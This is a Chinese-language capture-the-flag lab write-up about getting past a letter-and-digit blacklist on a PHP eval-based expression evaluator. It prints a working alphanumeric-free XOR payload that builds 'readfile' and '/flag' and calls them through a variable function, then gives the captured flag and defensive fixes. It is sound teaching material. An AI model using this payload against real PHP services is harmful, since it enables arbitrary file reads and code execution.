




# 3-2 内网渗透与高级社工 · 免杀 payload 制作（无字母数字 PHP 表达式绕过）

## 题目信息

| 项目 | 内容 |
|---|---|
| 题目名称 | 内网渗透与高级社工-免杀payload制作-G2（sectionID 7263，Flag 题 11231） |
| 分类 | Web 安全 / PHP 代码执行 / 无字母数字 payload |
| 题目描述 | 目标是一个在线表达式求值台。服务端会对输入进行校验，要求绕过校验并读取服务器上的 flag。 |

## 环境信息

| 项目 | 内容 |
|---|---|
| 平台 | VMCourse 实训平台，课程 ID 1639 |
| 靶机 Web | `http://172.17.0.13:13583/`，nginx + PHP 8.2.33 |
| 实例 | C082-G2-F，envID `1405`，podID `ol3qivrgt1zgveurk23znmi6w` |
| SSH | `172.17.0.13:13582`，未使用 |
| 题型 | 3 道单选、1 道多选、1 道 Flag 填空；五题均已判对 |

## 解题过程

### 1. 观察求值台（截图 01）

页面提供 `code` 文本框，提交方式为普通 POST，服务端立即求值并在页面回显结果。



### 2. 确认字母数字黑名单（截图 02）

提交普通表达式：

```text
echo 1+2;
```

页面返回“表达式未通过校验，无法求值”。`phpinfo();`、反引号命令等包含字母或数字的尝试也被拦截，说明校验重点是禁止字母数字字符，而不是限制危险语义。



### 3. 使用字符串异或构造函数名和路径

PHP 对字符串按字节执行 XOR。选择两组仅含符号的字符串，可以在运行时构造目标字符串：

```php
')%!$&),%' ^ '[@@@@@@@'   // readfile
'&,!:' ^ '@@@]'           // flag
```

路径中的 `/` 本身不是字母数字，可以直接使用；最终路径为 `/` 与构造出的 `flag` 拼接结果。

### 4. 使用变量函数调用 `readfile`（截图 03）

PHP 允许把字符串放入变量，再以 `$var(...)` 形式调用对应函数。变量名 `$___` 只包含美元号和下划线，完整 payload 如下：

```php
$___=')%!$&),%'^'[@@@@@@@';$___('/'.('&,!:'^'@@@]'));
```

提交后成功读取 `/flag`：

```text
vmc{nCU58nHL381SWucs9XV3ztEUhu2HDlK6}
```



### 5. 教学问答与平台判分（截图 04、05）

围绕本题向教学问答平台提问了 4 个问题，分别涉及字符串 XOR、变量函数、HTTP URL 编码和防御建议；问答页面截图如下，原始问答另存于 `.local/process/3-2-qa-transcript.json`。



平台提交的 3 道单选、1 道多选和 1 道 Flag 题均显示“作答正确”，截图如下。


## Flag

```text
vmc{nCU58nHL381SWucs9XV3ztEUhu2HDlK6}
```

## 总结与心得

题目的根本问题是把用户输入交给服务端求值，并试图用字符黑名单防护。黑名单只进行文本匹配，无法理解 PHP 语义，也无法阻止字符串在运行时通过 XOR 恢复为函数名和文件路径。

安全修复建议：不要对用户输入直接使用 `eval`；改用严格的白名单表达式解析器；将求值过程放入低权限、资源受限的隔离环境；对上传目录禁止脚本执行，并记录异常表达式、文件读取和函数调用行为。

教学问答原文保存在 `.local/process/3-2-qa-transcript.json`，完整过程记录保存在 `.local/process/3-2-ctf-process.md`。
